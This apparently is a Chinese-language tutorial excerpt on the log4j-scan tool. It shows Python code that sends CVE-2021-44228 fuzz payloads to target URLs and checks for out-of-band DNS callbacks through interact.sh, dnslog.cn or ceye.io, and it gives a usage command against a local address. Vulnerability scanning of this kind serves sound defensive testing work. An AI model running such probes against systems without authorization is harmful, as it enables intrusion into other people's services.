```python
        cprint(f"[•] Using custom DNS Callback host [{args.custom_dns_callback_host}]. No verification will be done after sending fuzz requests.")
        dns_callback_host = args.custom_dns_callback_host
    else:
        cprint(f"[•] Initiating DNS callback server ({args.dns_callback_provider}).")
        if args.dns_callback_provider == "interact.sh":
            dns_callback = Interactsh()
        elif args.dns_callback_provider == "dnslog.cn":
            dns_callback = Dnslog()
        elif args.dns_callback_provider == "ceye.io":
            ceye_token = "your_ceye_token"  # 替换为 ceye.io token
            ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
            dns_callback = Ceye(ceye_token, ceye_domain)
        else:
            raise ValueError("Invalid DNS Callback provider")
        dns_callback_host = dns_callback.domain

    cprint("[%] Checking for Log4j RCE CVE-2021-44228.", "magenta")
    for url in urls:
        cprint(f"[•] URL: {url}", "magenta")
        scan_url(url, dns_callback_host)

    if args.custom_dns_callback_host:
        cprint("[•] Payloads sent to all URLs. Custom DNS Callback host is provided, please check your logs to verify the existence of the vulnerability. Exiting.", "cyan")
        return

    cprint("[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.", "cyan")
    cprint("[•] Waiting...", "cyan")
    time.sleep(int(args.wait_time))
    records = dns_callback.pull_logs()
    if len(records) == 0:
        cprint("[•] Targets do not seem to be vulnerable.", "green")
    else:
        cprint("[!!!] Targets Affected", "yellow")
        for i in records:
            cprint(json.dumps(i), "yellow")
```

**5. 使用方法**
1. **注册 `ceye.io` 账户**：
   - 访问 [ceye.io](http://ceye.io/)，注册并获取 `token` 和 `domain`。

2. **运行工具**：
   - 使用以下命令运行工具，并指定 `ceye.io` 作为 DNS 回调服务：
     ```bash
     python3 log4j-scan.py -u http://192.168.20.6:13708/hello --dns-callback-provider ceye.io
     ```